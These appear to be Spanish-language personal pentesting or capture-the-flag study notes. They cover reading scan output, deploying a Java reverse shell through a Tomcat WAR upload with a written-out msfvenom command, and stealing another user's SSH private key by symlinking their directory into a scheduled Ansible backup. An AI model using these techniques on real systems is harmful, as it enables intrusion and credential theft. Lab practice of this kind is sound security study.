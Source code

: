 Leer bien la salida del escaneo, puede haber banderas o el nombre del dominio para agregar a /etc/host.
- Abrir a nivel de IP y a nivel de dominio para ver si hay un cambio.
- Si se tiene accceso:
	- Checar los commits.
- Guardar todas las credenciales que encontramos
- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- Cuando tengamos un tomcat y podemos subir un archivo WAR podemos subir una reverse shell de java.
	- `msfvenom -l payloads | grep java`
		- `jsp_shell_reverse_tcp`
		- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war`
- Cuando no podemos acceder a la flag de user, tenemos que escalar lateralmente a otro usuario o directo a root.
- Revisando en `/opt/backup` encontramos un playbook.
- Un playbook son tareas que se ejecutan cada cierto tiempo.
- Encontramos que una tarea es hacer un backupt de cieerto directorio.
- Enlistar las rutas para ver que esta haciendo.
- En admin/dashboard encontramos la ruta uploads con todos los permisos.
- Como tenemos todos los permisos y el backup se guarda al usuario que estamos usando. Realizamos un enlace simbólico con el directorio del otro usuario para obtener su contenido en el backup.
- gunzip para descomprimir .gz
- `tar -xf`
- Tenemos la llave privada ssh de ese wey.
- En yml hay una función para ejecutar comandos a nivel de sistema. `shell: `
- En hackmex quitar el permiso SuID
- Como enumerar puertos UDP
- Captar ping
- `sudo tcpdump -i tun0 icmp`